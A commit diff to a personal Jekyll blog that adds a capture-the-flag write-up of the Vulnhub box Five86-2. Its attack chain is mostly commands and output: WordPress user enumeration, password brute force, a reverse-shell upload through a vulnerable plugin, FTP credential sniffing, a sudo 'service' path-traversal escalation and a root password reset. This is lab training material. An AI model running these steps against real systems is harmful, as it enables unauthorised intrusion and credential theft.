

Before and after one commit to 0x47-G/0x47-g.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 686 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
CTF Five86-2

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -10,7 +10,7 @@ language: 'en-uk'
 name: '0x47'
 description: "All your base are belong to us"
 
-short_url: 'https://0x47/'
+short_url: 'https://0x47.dev/'
 google_analytics: UA-XXXXXX-1
 disqus: username
 # edit baseurl to simply '/' if using as your personal page (instead of a project page)
--- /dev/null
+++ b/_posts/2020-02-27-five86.md
@@ -0,0 +1,245 @@
+---
+layout: post
+cover: 'assets/images/cover3.jpg'
+navigation: True
+title: "Five86 CTF"
+tags: CTF
+subclass: 'post'
+logo: 'assets/images/0x47.png'
+author: "0x47"
+twitter: "0x47"
+categories: "CTF"
+---
+
+<p>Five86-2 is a CTF challenge found on <a href="https://www.vulnhub.com/entry/five86-2,418/">Vulnhub</a>.</p>
+
+<h2>Enumeration</h2>
+Did a full nmap scan to see if there are any more open ports than those highlighted above.
+{% highlight sh %}
+% nmap -A -p- -T4 192.168.1.185
+Starting Nmap 7.70 ( https://nmap.org ) at 2020-02-26 18:07 GMTß
+Nmap scan report for 172.16.6.104
+Host is up (0.0047s latency).
+Not shown: 65532 filtered ports
+PORT   STATE  SERVICE  VERSION
+20/tcp closed ftp-data
+21/tcp open   ftp      ProFTPD 1.3.5e
+80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
+|_http-generator: WordPress 5.1.4
+|_http-server-header: Apache/2.4.41 (Ubuntu)
+|_http-title: Five86-2 &#8211; Just another WordPress site
+Service Info: OS: Unix
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 97.55 seconds
+{% endhighlight %}
+
+Interesting things... out of date WordPress and ProFTPD. Let's begin....
+
+<h2>Reconnaissance</h2>
+
+<p>Initial browsing to the WordPress instance, shows default WP setup. Looks like base url is http://five86-2/, so added a host entry to make it render properly.</p>
+
+WPScan reveals no plugins, but does give us a few users.
+{% highlight sh %}
+% wpscan -u http://five86-2/ --enumerate
+...
+[+] Enumerating usernames ...
+[+] We identified the following 5 users:
+    +----+---------+-----------------+
+    | ID | Login   | Name            |
+    +----+---------+-----------------+
+    | 1  | admin   | admin           |
+    | 2  | barney  | Barney Sumner   |
+    | 4  | gillian | Gillian Gilbert |
+    | 5  | peter   | Peter Hook      |
+    | 6  | stephen | Stephen Morris  |
+    +----+---------+-----------------+
+...
+{% endhighlight %}
+
+No anonymnous login to ProFTPD instance. A quick scan with dirb reveals a few listable wp directories, but they show nothing exciting.
+
+Let's try brute forcing some of these users.
+
+{% highlight sh %}
+ % wpscan --url http://five86-2/ -U ~/Desktop/user.txt -P /Volumes/GDISK20191202/wordlists/SecLists/Passwords/darkweb2017-top10000.txt
+ ....
+ [+] Performing password attack on Xmlrpc against 5 user/s
+[SUCCESS] - barney / spooky1
+[SUCCESS] - stephen / apollo1
+Trying peter / steven123 Time: 00:07:01 <===================================================================================> (42634 / 42634) 100.00% Time: 00:07:01
+
+[i] Valid Combinations Found:
+ | Username: barney, Password: spooky1
+ | Username: stephen, Password: apollo1
+{% endhighlight %}
+
+Logging in as Barney, I can see the plugins. Only non-default one is "Insert or Embed Articulate Content into Wordpress Trial". Sure enough a quick Internet search leads to <a href="https://www.exploit-db.com/exploits/46981">explot-db</a>.
+
+Lazily grab a php reverse shell from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">pentestmonkey</a>, create an index.html and zip it up. Upload it and voilla!
+
+{% highlight sh %}
+$ id
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+$
+{% endhighlight %}
+
+
+Let's take a look around. Searching /home, we find barney, george, gillian, john, paul, peter, richard and stephen all of which seem to have secure home directories.
+
+Downloading and running <a href="https://github.com/rebootuser/LinEnum">LinEnum.sh</a> we find a couple of interesting things:
+
+{% highlight sh%}
+....
+paul      1716  0.0  0.0   2600   728 ?        Ss   10:14   0:00 /bin/sh -c /home/paul/ftp_upload.sh > /dev/null 2>&1
+paul      1717  0.0  0.0   2600   796 ?        S    10:14   0:00 /bin/sh /home/paul/ftp_upload.sh
+paul      1718  0.0  0.2   3224  2188 ?        S    10:14   0:00 ftp -n 172.18.0.10
+1000      1719  0.0  0.8 133072  8416 ?        S+   10:14   0:00 proftpd: paul - 172.18.0.1: STOR file.txt
+....
+-e [+] Possibly interesting SUID files:
+-rwsr-x--- 1 peter ncgroup 30856 Apr 13  2017 /usr/bin/nc.traditional
+{% endhighlight %}
+
+We're unable to run either of those things. After hunting around for a bit longer I tried the wp passwords...
+
+{% highlight sh %}
+$ /usr/bin/nc.traditional -l 8888
+/bin/sh: 18: /usr/bin/nc.traditional: Permission denied
+$ su barney
+Password: spooky1
+su: Authentication failure
+$ su stephen
+Password: apollo1
+id
+uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
+{% endhighlight %}
+
+Silly boy Stephen!
+
+{% highlight sh %}
+stephen@five86-2:~$ groups
+groups
+stephen pcap
+{% endhighlight %}
+
+Hmmm... stephen is in the pcap group. Guess we need to see if we can find the ftp password then, using tcpdump.
+
+{% highlight sh %}
+stephen@five86-2:~$ tcpdump -nn -s0 -v port 21
+tcpdump -nn -s0 -v port 21
+tcpdump: listening on br-eca3858d86bf, link-type EN10MB (Ethernet), capture size 262144 bytes
+10:32:01.077980 IP (tos 0x0, ttl 64, id 9758, offset 0, flags [DF], proto TCP (6), length 60)
+    172.18.0.1.34938 > 172.18.0.10.21: Flags [S], cksum 0x585e (incorrect -> 0xa468), seq 3678066925, win 64240, options [mss 1460,sackOK,TS val 3139786905 ecr 0,nop,wscale 7], length 0
+10:32:01.078009 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 60)
+    172.18.0.10.21 > 172.18.0.1.34938: Flags [S.], cksum 0x585e (incorrect -> 0x7409), seq 3034452652, ack 3678066926, win 65160, options [mss 1460,sackOK,TS val 566641509 ecr 3139786905,nop,wscale 7], length 0
+10:32:01.078024 IP (tos 0x0, ttl 64, id 9759, offset 0, flags [DF], proto TCP (6), length 52)
+    172.18.0.1.34938 > 172.18.0.10.21: Flags [.], cksum 0x5856 (incorrect -> 0x9f68), ack 1, win 502, options [nop,nop,TS val 3139786905 ecr 566641509], length 0
+10:32:01.087747 IP (tos 0x0, ttl 64, id 51783, offset 0, flags [DF], proto TCP (6), length 109)
+    172.18.0.10.21 > 172.18.0.1.34938: Flags [P.], cksum 0x588f (incorrect -> 0xafcb), seq 1:58, ack 1, win 510, options [nop,nop,TS val 566641518 ecr 3139786905], length 57: FTP, length: 57
+	220 ProFTPD 1.3.5e Server (Debian) [::ffff:172.18.0.10]
+10:32:01.087769 IP (tos 0x10, ttl 64, id 9760, offset 0, flags [DF], proto TCP (6), length 52)
+    172.18.0.1.34938 > 172.18.0.10.21: Flags [.], cksum 0x5856 (incorrect -> 0x9f1c), ack 58, win 502, options [nop,nop,TS val 3139786915 ecr 566641518], length 0
+10:32:01.088350 IP (tos 0x10, ttl 64, id 9761, offset 0, flags [DF], proto TCP (6), length 63)
+    172.18.0.1.34938 > 172.18.0.10.21: Flags [P.], cksum 0x5861 (incorrect -> 0x0c71), seq 1:12, ack 58, win 502, options [nop,nop,TS val 3139786915 ecr 566641518], length 11: FTP, length: 11
+	USER paul
+10:32:01.088361 IP (tos 0x0, ttl 64, id 51784, offset 0, flags [DF], proto TCP (6), length 52)
+    172.18.0.10.21 > 172.18.0.1.34938: Flags [.], cksum 0x5856 (incorrect -> 0x9f08), ack 12, win 510, options [nop,nop,TS val 566641519 ecr 3139786915], length 0
+10:32:01.088821 IP (tos 0x0, ttl 64, id 51785, offset 0, flags [DF], proto TCP (6), length 84)
+    172.18.0.10.21 > 172.18.0.1.34938: Flags [P.], cksum 0x5876 (incorrect -> 0xefa8), seq 58:90, ack 12, win 510, options [nop,nop,TS val 566641520 ecr 3139786915], length 32: FTP, length: 32
+	331 Password required for paul
+10:32:01.089040 IP (tos 0x10, ttl 64, id 9762, offset 0, flags [DF], proto TCP (6), length 52)
+    172.18.0.1.34938 > 172.18.0.10.21: Flags [.], cksum 0x5856 (incorrect -> 0x9eee), ack 90, win 502, options [nop,nop,TS val 3139786916 ecr 566641520], length 0
+10:32:01.089333 IP (tos 0x10, ttl 64, id 9763, offset 0, flags [DF], proto TCP (6), length 73)
+    172.18.0.1.34938 > 172.18.0.10.21: Flags [P.], cksum 0x586b (incorrect -> 0xc147), seq 12:33, ack 90, win 502, options [nop,nop,TS val 3139786916 ecr 566641520], length 21: FTP, length: 21
+	PASS esomepasswford
+10:32:01.089427 IP (tos 0x0, ttl 64, id 51786, offset 0, flags [DF], proto TCP (6), length 52)
+    172.18.0.10.21 > 172.18.0.1.34938: Flags [.], cksum 0x5856 (incorrect -> 0x9ed1), ack 33, win 510, options [nop,nop,TS val 566641520 ecr 3139786916], length 0
+10:32:01.097820 IP (tos 0x0, ttl 64, id 51787, offset 0, flags [DF], proto TCP (6), length 77)
+    172.18.0.10.21 > 172.18.0.1.34938: Flags [P.], cksum 0x586f (incorrect -> 0xc1b6), seq 90:115, ack 33, win 510, options [nop,nop,TS val 566641529 ecr 3139786916], length 25: FTP, length: 25
+{% endhighlight %}
+
+Hokeydokey, we have a password!
+
+{% highlight sh %}
+$ su paul
+Password: esomepasswford
+id
+uid=1006(paul) gid=1006(paul) groups=1006(paul),1010(ncgroup)
+{% endhighlight %}
+
+sudo -l tells us that paul can run /usr/sbin/service as peter, gawdammit this is a rabbit hole and a half.
+
+{% highlight sh %}
+paul@five86-2:~$ sudo -u peter /usr/sbin/service ../../bin/bash
+sudo -u peter /usr/sbin/service ../../bin/bash
+To run a command as administrator (user "root"), use "sudo <command>".
+See "man sudo_root" for details.
+peter@five86-2:/$ id
+id
+uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
+{% endhighlight %}
+
+So lets see if peter can run anything useful...
+{% highlight sh %}
+peter@five86-2:/$ sudo -l
+sudo -l
+Matching Defaults entries for peter on five86-2:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User peter may run the following commands on five86-2:
+    (ALL : ALL) ALL
+    (root) NOPASSWD: /usr/bin/passwd
+{% endhighlight %}
+
+Errm yes. Glad I didn't have to go through all those users!
+
+{% highlight sh %}
+peter@five86-2:/$ sudo passwd root
+sudo passwd root
+New password: password
+
+Retype new password: password
+
+peter@five86-2:/$ su root -
+su root -
+Password: password
+
+root@five86-2:/# cd /root
+cd /root
+root@five86-2:~# ls -la
+ls -la
+total 48
+drwx------  5 root root 4096 Jan 13 11:21 .
+drwxr-xr-x 20 root root 4096 Jan  8 22:57 ..
+-rw-------  1 root root 1798 Jan 13 11:22 .bash_history
+-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
+drwxr-xr-x  3 root root 4096 Jan  9 08:54 .local
+-rw-r--r--  1 root root  148 Aug 27  2019 .profile
+drwxr-xr-x  3 root root 4096 Jan  8 23:01 snap
+drwx------  2 root root 4096 Jan  8 23:00 .ssh
+-rwx------  1 root root  995 Jan  9 05:14 thisistheflag.txt
+-rw-------  1 root root 8853 Jan 13 11:19 .viminfo
+root@five86-2:~# cat thisistheflag.txt
+cat thisistheflag.txt
+
+__   __            _                           _                                 _ _ _ _ _
+\ \ / /           | |                         | |                               | | | | | |
+ \ V /___  _   _  | |__   __ ___   _____    __| | ___  _ __   ___  __      _____| | | | | |
+  \ // _ \| | | | | '_ \ / _` \ \ / / _ \  / _` |/ _ \| '_ \ / _ \ \ \ /\ / / _ \ | | | | |
+  | | (_) | |_| | | | | | (_| |\ V /  __/ | (_| | (_) | | | |  __/  \ V  V /  __/ | |_|_|_|
+  \_/\___/ \__,_| |_| |_|\__,_| \_/ \___|  \__,_|\___/|_| |_|\___|   \_/\_/ \___|_|_(_|_|_)
+
+
+Congratulations - hope you enjoyed Five86-2.
+
+If you have any feedback, please let me know at @Five86_x
+
+I also want to send out a big thanks to all those who help me with beta testing
+of the various challenges:  @m0tl3ycr3w and @syed__umar in particular
+{% endhighlight %}
+
+And we're done... Looking at the box a little further there was another way through. Paul is in the ncgroup, so could have run nctraditional to get a shell as peter rather than the /sbin/service escalation.
+
+Thanks very much for the box <a href="http://www.five86.com/">@five86_x</a>.
```
